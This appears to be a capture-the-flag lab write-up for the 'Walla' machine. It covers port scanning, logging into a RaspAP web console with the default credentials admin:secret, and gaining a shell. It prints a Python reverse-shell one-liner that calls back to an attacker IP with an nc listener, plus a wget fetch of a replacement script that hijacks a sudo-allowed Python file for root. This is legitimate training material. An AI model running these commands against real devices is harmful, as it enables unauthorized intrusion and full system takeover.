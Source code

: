 ```yaml
---
description: 12/05/2022
---
```


# Walla (Intermediate)

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Issuer: commonName=walla
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T18:26:36
| Not valid after:  2030-09-15T18:26:36
| MD5:   097cbda176ab9b73c8ef68ab84e9a055
|_SHA-1: 6c4bfee30bd6d9102ef9f81a3a4172d831bdbaac
|_ssl-date: TLS randomness does not represent time
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: B5F9F8F2263315029AD7A81420E6CC2D
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.53
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
PORT     STATE         SERVICE  VERSION
53/udp   open|filtered domain
67/udp   open|filtered dhcps
631/udp  open|filtered ipp
5353/udp open|filtered zeroconf
```

Notes:

* SSH open on 42042, 422, and 22 is open
* Telnet 23 is open -- Strange
* SMTP 25 is open
* <mark style="color:yellow;">HTTP 8091 is open -- Lighttpd 1.4.53</mark>
  * RaspAP

## Enumeration

### Port 8091 - HTTP (Lighttpd--RaspAP)

Visual:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>admin:secret (Default Credentials)</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption><p>Discovering Default Credentials</p></figcaption></figure>

* We now have access to the RaspAP login page!

## Exploitation

* [http://192.168.66.97:8091/index.php?page=system\_info#console](http://192.168.66.97:8091/index.php?page=system\_info#console)
* Upon navigating to the following site, you can execute commands in the following window/web shell!!!

{% embed url="https://github.com/gerbsec/CVE-2020-24572-POC" %}
Not needed, but cool
{% endembed %}

Start nc Listener:

```
sudo rlwrap nc -lnvp 42042
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192
.168.49.66",42042));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption><p>Utilizing exploit to craft us a reverse shell!</p></figcaption></figure>

* Or you could simply use revshells

{% embed url="https://www.revshells.com/" %}

<figure><img src="../../../.gitbook/assets/image (7) (9).png" alt=""><figcaption><p>RaspAP Webshell</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption><p>Landed as www-data</p></figcaption></figure>

## Privilege Escalation

Sudo -l Enumeration:

<figure><img src="../../../.gitbook/assets/image (2) (2).png" alt=""><figcaption><p>Interesting file</p></figcaption></figure>

### Local enumeration

Linpeas:

```
/etc/mysql/mariadb.cnf


╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /etc/aliases.db: Berkeley DB (Hash, version 9, native byte-order)
```

### PrivEsc vector

<mark style="color:yellow;">sudo /usr/bin/python /home/walter/wifi\_reset.py</mark>

Remove wifi\_reset.py:

{% code overflow="wrap" %}
```
rm -f /home/walter/wifi_reset.py
```
{% endcode %}

Replace with wifi\_reset.py:

```
import os

os.system('/bin/bash')
```

Transfer to Victim:

```
cd /home/walter

wget 192.168.49.66/wifi_reset.py
```

Execute Binary:

```
sudo /usr/bin/python /home/walter/wifi_reset.py
```

## Proofs

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption><p>Root</p></figcaption></figure>

